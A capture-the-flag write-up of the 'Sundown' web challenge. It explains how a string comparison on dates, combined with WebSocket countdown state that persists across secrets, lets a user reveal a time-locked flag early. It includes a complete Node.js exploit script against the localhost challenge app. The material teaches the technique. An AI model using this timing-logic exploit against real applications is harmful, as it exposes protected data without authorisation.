




# Scope
The Sundown CTF challenge for PlaidCTF 2025 was a webapp pentest which gave away the entire source code of the box that you needed to launch the exploit against. When the exploit was ready, the ephemeral VM would run for ~2 minutes before shutting down.
# Overview
As mentioned above, all code was received via a tgz file with the following structure once unpacked:
```
.
├── app
│   ├── Dockerfile
│   ├── index.html
│   ├── package.json
│   ├── src
│   │   ├── api.ts
│   │   ├── db.ts
│   │   ├── env.ts
│   │   ├── index.ts
│   │   └── zodInterceptor.ts
│   ├── tsconfig.json
│   ├── tsconfig.server.json
│   ├── ui
│   │   ├── App.tsx
│   │   ├── Callout.module.scss
│   │   ├── Callout.tsx
│   │   ├── CreateSecret.module.scss
│   │   ├── CreateSecret.tsx
│   │   ├── Home.tsx
│   │   ├── Login.tsx
│   │   ├── MySecrets.module.scss
│   │   ├── MySecrets.tsx
│   │   ├── Page.module.scss
│   │   ├── Page.tsx
│   │   ├── Register.tsx
│   │   ├── Secret.module.scss
│   │   ├── Secret.tsx
│   │   ├── index.scss
│   │   ├── index.tsx
│   │   ├── useMySecrets.tsx
│   │   ├── useSecret.tsx
│   │   └── useUser.tsx
│   ├── vite.config.mjs
│   └── yarn.lock
├── db
│   ├── Dockerfile
│   └── initdb.sql
└── docker-compose.yml

5 directories, 34 files
```
To start the challenge, we spin the app up by running the following
```bash
docker compose up --build
```

## Discovery/Initial Evaluation
What immediately greets us is a front end which has a small app for secrets to be inserted into the database, and unlocked after the timer expires. A brief manual enumeration reveals that there's not much to it. A login, register, and secrets-related pages are all the makes this app.



If we try to log in, we’re met with an error, forcing us to register before logging in.



As we are now logged in, we have the ability to create secrets as well as see the secrets we’ve created.



### First Observation: URL Structure
When we first create a secret, we can see that the webpage begins counting down to the time that we inserted into the database. The url has an interesting structure as well:
```
<SNIP>/secret/93eee917-2007-4bad-adad-8c12f3f324fb
```

The secret is represented by a UUID, so we know that this wouldn't be some type of brute-force IDOR attack where we can mess with the indices. After logging out, we also observe that this URL is still valid, meaning that someone who has the URL with the UUID can eventually see the secret whenever it is opened. So we dig into the database to see if there's any additional details there for us.
### Second Observation: We know where the flag is
So we can open the database any number of ways, one of which is to just exec into the db container and launch the `psql` shell:
```bash
docker exec -it problem-db-1 psql -U postgres -d sundown
```

Then, we can switch to the search path for the project:
```sql
SET search_path TO sundown,public;
```

From here, we can check the tables that we have access to. We found that the user table didn't have anything special and, even if it did, there didn't seem to be a way to fast forward a secret, even one that we own, so an account takeover seems to not be the vector here.
```
sundown=# \dt
          List of relations
 Schema  |  Name  | Type  |  Owner
---------+--------+-------+----------
 sundown | secret | table | postgres
 sundown | token  | table | postgres
 sundown | user   | table | postgres
```

Things get interesting when we look into the `secret` table, which seems to be where the secrets are stored. Within this table, we see the following entry.
```
id                  | owner_id | name |     secret      |       reveal_at        |          created_at
13371337-1337-1337-1337-133713371337 | plaid    | Flag | PCTF{test_flag} | 2026-04-10 21:00:00+00 | 2025-04-07 15:34:52.874292+00

```
Here we can see that `13371337-1337-1337-1337-133713371337` is the entry where the flag is. The flag in the dev instance seems to be a placeholder so, presumably, we'll see that pop up when we do our test before executing on the real thing. The issue here is that we can also see that the reveal time is 1 year in the future.

Recalling our prior finding about public URLs, we go to the UUID `13371337-1337-1337-1337-133713371337`, and we can confirm the problem: the flag reveals in 1 year, and we already confirmed that, even if we somehow compromised the creating account, or spoofed it some way, there does not appear to be a vector to reveal a secret early using the application's functionality, so this must be the hack.



## Analysis
Luckily for us, we have the source code, we can see the relevant parts of the file tree here. A scan of the UI code shows that all of the core logic related to timings and timeouts is exclusively driven by the server. The contest designers were kind enough to put all the logic we care about in a single file as well, so it makes analyzing this easy.
```
/app/src/
├── api.ts
├── db.ts
├── env.ts
├── index.ts
└── zodInterceptor.ts
1 directory, 5 files
```

With a quick scan through these files, we can tell that `api.ts` is the one we're interested in, as it has the ability to call `revealSecret()` once the remaining time gets low enough.

```JS
if (remaining <= 0) {
	revealSecret();
} else {
	if (timeoutDuration === undefined) {
		updateTimeoutDuration();
	}
	updateTimeout();
}
```
### Observation #1: State is long-lived per connection
As we get a WebSocket connection, these values will be stored as long as the connection is maintained.
```JS
apiRouter.ws("/ws", (ws, req) => {
	let secretId: string | undefined;
	let secret: string | undefined;
	let timeout: NodeJS.Timeout | undefined;
	let remaining: number | undefined;
	let timeoutDuration: number | undefined;
```

### Observation #2: The timeoutDuration is the only value we care about
The `timeoutDuration` is based on the remaining time and is fit into an interval. This is a UI-driven decision to avoid, for example, counting down the absurdly long number of seconds in a year on the page. The interval will instead choose a reasonably-smaller value than the time remaining and count from there (i.e. if we have a week, we might count in days, for example). The `updateTimeout` function only gets called whenever this `timeoutDuration` expires, this tracks with the logic of `setTimeout()`. This callback essentially just resets this sub-timer in the UI so that way the UI can be notified when the next sub-interval completes.

```JS
const UpdateIntervals = [
	Duration.fromObject({ years: 2 }).toMillis(),
	Duration.fromObject({ years: 1 }).toMillis(),
	Duration.fromObject({ months: 6 }).toMillis(),
	Duration.fromObject({ months: 2 }).toMillis(),
	Duration.fromObject({ months: 1 }).toMillis(),
	Duration.fromObject({ weeks: 1 }).toMillis(),
	Duration.fromObject({ days: 1 }).toMillis(),
	Duration.fromObject({ hours: 1 }).toMillis(),
	Duration.fromObject({ minutes: 30 }).toMillis(),
	Duration.fromObject({ minutes: 10 }).toMillis(),
	Duration.fromObject({ minutes: 5 }).toMillis(),
	Duration.fromObject({ minutes: 1 }).toMillis(),
	Duration.fromObject({ seconds: 30 }).toMillis(),
	Duration.fromObject({ seconds: 10 }).toMillis(),
	Duration.fromObject({ seconds: 5 }).toMillis(),
	Duration.fromObject({ seconds: 1 }).toMillis(),
	Duration.fromObject({ milliseconds: 500 }).toMillis(),
	Duration.fromObject({ milliseconds: 100 }).toMillis(),
];

function updateTimeoutDuration() {
	timeoutDuration = UpdateIntervals.find((interval) => interval <= remaining! / 100) ?? 100;
}

function updateTimeout() {
	if (remaining === undefined) {
		return;
	}

	if (timeout !== undefined) {
		clearTimeout(timeout);
	}

	ws.send(JSON.stringify({ kind: "Update", remaining: formatDuration(remaining) }));

	timeout = setTimeout(() => {
		remaining! -= timeoutDuration!;
		if (remaining! <= 0) {
			revealSecret();
		} else {
			updateTimeoutDuration();
			updateTimeout();
		}
	}, timeoutDuration);
}
```

### Observation #3: `remaining` is never re-validated
It's plainly obvious from the simplicity of the code where the attack vector is. Looking through the code, there's no other block which adjusts the `remaining` value except within the callback of `setTimeout`.

The problem is: we don’t control the `timeoutDuration` of the `1337` secret so how could we possibly change it? We need to somehow force a *huge* interval for `timeoutDuration` such that `remaining` goes to zero. This is due to the following code block:
```js
const secretData = await pool.maybeOne(sql.type(
	z.object({
			id: z.string(),
			owner_id: z.string(),
			name: z.string(),
			secret: z.string(),
			reveal_at: z.number(),
			created_at: z.number(),
	}),
)`
	SELECT id, owner_id, name, secret, timestamp_to_ms(reveal_at) AS reveal_at, timestamp_to_ms(created_at) AS created_at
	FROM sundown.secret
	WHERE id = ${data.id}
`);

if (secretData === null) {
	ws.send(JSON.stringify({ error: "Secret not found" }));
	return;
}

secretId = secretData.id;
secret = secretData.secret;
ws.send(JSON.stringify({ kind: "Watch", id: secretId, name: secretData.name }));
remaining = new Date(secretData.reveal_at).getTime() - Date.now();
```
See, the `remaining` value is only loaded *once* per active websocket connection, so it will not verify with the database before revealing a secret. Which demonstrates a clear flaw in the application logic, as the backing data store is always supposed to be the source of truth.

If you remember from above, as long as the WebSocket connection is open, the `timeoutDuration` will be set. So the real question becomes: what is the **largest** value we can set it to?

## Attack Vector: Invalid Date Comparison
The attack vector is frustratingly subtle. The use of `zod`, which is a data validation library for typescript (since type checks are not static) is actually a huge hint. Observe the below snippett:
```JS
const MaxSecretDate = "2030-01-01T00:00:00.000"; // 1

apiRouter.post("/secrets/create", async (req, res) => {

const body = z
	.object({
	secret: z.string().min(1).max(1000),
	name: z.string().min(1).max(100),
	revealAt: z.string().transform((s, ctx) => { // 2

	const date = DateTime.fromISO(s);

	if (!date.isValid) {
		ctx.addIssue({ code: "custom", message: "Invalid date" });
		return z.NEVER;
	}

	if (s > MaxSecretDate) { // 3
		ctx.addIssue({
			code: "custom",
			message: "Reveal date too far in the future",
		});
		return z.NEVER;
	}
	return date;
}),
...
```
If you look at the above, you can see in comments **1**, **2**, and **3** (these are not in the source code but have been added for clarity) highlight how we are comparing two strings (1, 2) via a **lexicographical comparison** (3).

#### Aside: Lexical String Comparison
First, let’s learn a bit about Lexical String Comparison — at least what’s relevant here:

**JavaScript Rules for Lexical String Comparison:**

When you compare strings in JavaScript using `<`, `>`, `<=`, `>=`:

1. JavaScript does not parse the string as a number, even if it _looks_ like a number (e.g., `"100"` or `"+5"`).

2. It compares strings character by character from left to right using their **Unicode code points** (i.e., `.charCodeAt()`).

3. The first position where the characters differ determines the result.

4. If all characters match up to the length of the shorter string, then the shorter string is considered less than the longer one.

Example

```JS
'+100' < '1' // true
```

This is true because `'+'` (Unicode 43) is less than `'1'` (Unicode 49) — **Rule 3** applies here.

```JS
'a100' < '1' // false
```

`'a'` (Unicode 97) is greater than `'1'` (Unicode 49) — again Rule 3.

```JS
'100000' < 'z' // true
```

`'1'` (Unicode 49) is less than `'z'` (Unicode 122) — Rule 3 again.

### Exploit
Since the lexical string comparison occurs *instead of* `Date` objects, the strings' values are prone to Javascript's quirks regarding the character index in the ASCII table.
```JS
import WebSocket from "ws";

const FLAG_SECRET_ID = "13371337-1337-1337-1337-133713371337";

const username = "diet";
const password = "coke";

// Register the user
await fetch(`http://localhost:3000/api/register`, {
	method: "POST",
	headers: { "Content-Type": "application/json" },
	body: JSON.stringify({ username, password }),
});

console.log("user", username, "password", password);

// Log in the user
const loginResponse = await fetch(`http://localhost:3000/api/login`, {
	method: "POST",
	headers: { "Content-Type": "application/json" },
	body: JSON.stringify({ username, password }),
});

if (!loginResponse.ok) {
	console.error("Login failed:", loginResponse.status, await loginResponse.text());
	process.exit(1);
}

const setCookie = loginResponse.headers.get("set-cookie");
if (!setCookie) {
	console.error("No set-cookie header in login response");
	process.exit(1);
}

const cookie = setCookie.match(/session=([^;]+)/)[0];

console.log("user", username, "cookie", cookie);

// Create a secret with a lexicographically larger reveal date
const createResponse = await fetch(`http://localhost:3000/api/secrets/create`, {
	method: "POST",
	headers: { "Cookie": cookie, "Content-Type": "application/json" },
	body: JSON.stringify({
		name: "diet",
		secret: "coke",
		revealAt: "+100000-01-01T00:00:00.000Z",
	}),
});

const secretId = (await createResponse.json()).id;

console.log("Created secret", secretId);

// Open a WebSocket connection
const ws = new WebSocket("wss://localhost:3000/api/ws");

ws.addEventListener("open", () => {
	ws.addEventListener("message", (event) => {
		console.log(event.data);
	});
	ws.send(JSON.stringify({ command: "open", id: secretId }));
	ws.send(JSON.stringify({ command: "open", id: FLAG_SECRET_ID }));
});

```

### Key Parts
The **initial payload** has the `revealAt` set to `"+100000-01-01T00:00:00.000Z"`, which is lexicographically larger than the current reveal date.

```JS
ws.addEventListener("open", () => {
	ws.addEventListener("message", (event) => {
		console.log(event.data);
	});
	ws.send(JSON.stringify({ command: "open", id: secretId }));
	ws.send(JSON.stringify({ command: "open", id: FLAG_SECRET_ID }));
});
```

```JSON
{"kind":"Reveal","id":"13371337-1337-1337-1337-133713371337","secret":"PCTF{welcome_to_plaidctf_2026!!1one_69df568bcf58e1ff}"}
```
### Conclusion

This challenge was a great example of how a subtle misuse of string comparison can lead to a critical logic flaw. By injecting a secret with a lexicographically larger (but syntactically invalid) date, we manipulated the server’s timeout duration and prematurely revealed a flag that was intended to stay hidden for a year.
